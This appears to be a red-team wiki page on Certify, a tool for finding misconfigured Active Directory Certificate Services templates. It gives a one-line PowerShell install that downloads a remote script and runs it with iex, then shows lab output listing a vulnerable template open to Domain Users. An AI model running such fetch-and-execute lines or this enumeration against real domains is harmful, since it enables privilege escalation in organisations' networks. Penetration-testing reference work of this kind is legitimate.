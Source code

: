 ```yaml
---
title : "Certify"
# pre : ' '
description : "Active Directory certificate abuse."
date : 2022-01-19T21:26:13+01:00
# hidden : true
# draft : true
weight : 280
tags : ['Other', 'Active Directory', 'ADCS']
---
```


---

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

[@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) are the primary authors of Certify and the the associated AD CS research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

## Installation

Please compile the `.exe` yourself or use the PowerShell script below. The examples will use the PowerShell implementation.

```plain
iex((iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1).content)
```

## Examples

### Identify vulnerable PKIs

```plain
PS Z:\> Invoke-Certify -Command 'find /vulnerable'

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=offsec,DC.nl'

[*] Listing info about the Enterprise CA 'offsec-DC01PKI-CA'

    Enterprise CA Name            : offsec-DC01PKI-CA
    DNS Hostname                  : DC01PKI.offsec.nl
    FullName                      : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=offsec-DC01PKI-CA, DC=offsec, DC.nl
    Cert Thumbprint               : 2CFF52459C3F6C9BD541FDDAF3CC6F0EA72671CC
    Cert Serial                   : 1C0000000565446F3BBD81156A000000000005
    Cert Start Date               : 12/20/2021 6:34:12 AM
    Cert End Date                 : 12/20/2026 6:44:12 AM
    Cert Chain                    : CN=DC01PKI-N1-CA -> CN=offsec-DC01PKI-CA,DC=offsec,DC.nl
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated Users S-1-5-11
      Allow  Read, Enroll                               NT AUTHORITY\NETWORK SERVICE  S-1-5-20
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
      Allow  ManageCA, ManageCertificates               offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
    Enrollment Agent Restrictions : None

[!] Vulnerable certificate templates that exist but an Enterprise CA does not publish:

    ConfigMgrWebServerCertificate


[!] Vulnerable Certificates Templates :

    CA Name                         : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Template Name                   : UsersOffsecAD
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required  : 0
    pkiextendedkeyusage             : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Domain Users       S-1-5-21-497837788-612300594-3587273769-513
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
      Object Control Permissions
        Owner                       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
        WriteOwner Principals       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteDacl Principals        : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteProperty Principals    : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519

C3rt1fy completed in 00:00:01.1902168
```

## URL List

- [Github.com - Certify](https://github.com/GhostPack/Certify)
- [Github.com - Certipy](https://github.com/ly4k/Certipy)
